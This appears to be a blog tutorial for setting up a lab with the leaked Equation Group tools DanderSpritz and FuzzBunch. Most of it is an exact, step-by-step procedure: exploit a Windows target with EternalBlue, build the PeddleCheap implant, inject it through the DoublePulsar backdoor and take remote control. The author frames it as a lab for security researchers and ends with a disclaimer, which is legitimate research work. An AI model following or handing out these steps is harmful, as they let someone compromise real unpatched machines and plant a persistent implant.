

[Home](./)

# Using DanderSpritz Lab, a fully functional lab environment

I've published [DanderSpritz_lab](https://github.com/francisck/DanderSpritz_lab) a series of packer and vagrant scripts that build a fully functional DanderSpritz lab in as little as two commands.

If you're trying to get DanderSpritz up and running in a lab environment quickly - I highly recommend that you use DanderSpritz lab instead of installing and configuring it manually.

# DanderSpirtz Installation

## DanderSpritz Requirements 

The requirements for DanderSpritz are below:

* [Java Runtime environment 6](http://www.oracle.com/technetwork/java/javase/java-archive-downloads-javase6-419409.html)
* [Python 2.6.6](https://www.python.org/download/releases/2.6.6/)
* [Winpy32 for Python 2.6](https://github.com/mhammond/pywin32/releases/tag/b221)

## Installing DanderSpritz

You'll want to clone the following repo to a location on the machine that you intend to run DanderSpritz on:

https://github.com/x0rz/EQGRP_Lost_in_Translation

Below is a command you can use as long as the machine has `git` installed:

	git clone https://github.com/x0rz/EQGRP_Lost_in_Translation.git eqtools

The contents that you need for DanderSpritz are under the "Windows" folder of the repository. You'll also need to manually create a "listening posts" directory within the "Windows folder" as such:

	mkdir C:\Users\$USER\$REPO_LOCATION\windows\listeningposts

DanderSpritz also *really* prefers to be running from a separate partition on the hard disk of the machine that has the letter "D:\". In order to *avoid* having to manually partition the disk, let's just create a [virtual disk](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/subst) that points to the folder where DanderSpritz and it's files are located:

	subst D: C:\Users\$USER\$REPO_LOCATION\windows

# DanderSpirtz & FuzzBunch Configuration 

##  Create a FuzzBunch project

1. Launch the Windows Command Prompt (cmd) and run the following:
		
		D:\
		python fb.py

2. Set a default **target** address 
3. Set a default **callback** address 
4. **Do not** use redirection (at first)
5. Leave the default log directory
6. Create a new project (option _0_)
7. Name your new project
8. Leave the default logs directory

## Exploit the Target Machine

1. Run the following command to exploit the machine using EternalBlue:

		use eternalblue

2. Choose all of the default options **except** the delivery mechanism. Use "FB" (traditional deployment) as the delivery mechanism
3. Once eternalblue succeeds, configure danderspritz and peddlecheap

## Configure & Launch DanderSpritz 

1. Launch another Windows Command Prompt (cmd) and run the following:
	   
		D:\
		python configure_lp

2. Allow Java through the firewall
3. Select `browse` next to "Log directory" and choose the name of the FuzzBunch project you created

4. Click "go"

## PeddleCheap prep (configure the implant)

1. In the DanderSpritz console, run the following command:
    
		pc_prep

2. Select the standard x64-winnt level 3 sharedlib payload (or 32bit depending on target)
    `5`
3. Do **not** select advanced settings
4. Choose to perform an immediate callback
5. Use the default PC ID (0)
6. Select **"Yes"** to "Do you want to listen?"
7. Do **not** change listen ports
8. Leave the default "callback" address (127.0.0.1)
9. Do not change the exe name 
10. Use the default key (option 2)
11. Validate that the PeddleCheap configuration is valid
12. Do **not** configure with FC (_felonycrowbar_)
13. Copy the location of the configured binary:

## Deliver the implant (peddlecheap) via DoublePulsar backdoor:

1. In the original Fuzzbunch Window type:

		use doublepulsar

2. Choose "yes" when asked if you want to be prompted for variable settings
3. Select all default variable settings but make sure you configure the proper the target architecture (option 0 for 32-bit and option 1 for 64-bit)
    `1) x64   x64 64-bits`
4. Select the "RunDLL" function (option 2)

		2) RunDLL Use an APC to inject a DLL into a user mode process.

5. Leave all other options default and select "Yes" when asked if you want to execute the plugin
6. You should see "Doublepulsar succeeded"

## Connect to PeddleCheap implant with DanderSpritz

1. In DanderSpritz select "PeddleCheap" at the top of the screen
2. Select the "default" key from the key dropdown menu
3. Enter the address of the target machine
4. Select "Connect to target"

5. Select your Fuzzbunch project name
6. Wait for the [DanderSpritz Survey](https://medium.com/francisck/the-equation-groups-post-exploitation-tools-danderspritz-and-more-part-1-a1a6372435cd) to complete (will take quite a while) and you'll have to answer a few questions along the way
7. Profit!

## Use for good, not evil!

The purpose of this documentation is to allow *security researchers* to build and configure a fully functional DanderSpritz lab easily for reverse engineering and testing. 

* **Do not** run this against any targets outside of a lab. 
* **Do not** use this for "red team engagements"
* **Do** Contribute your research back to the community
* **Do** Reach out to [me](https://twitter.com/francisckrs) with any questions you may have :) 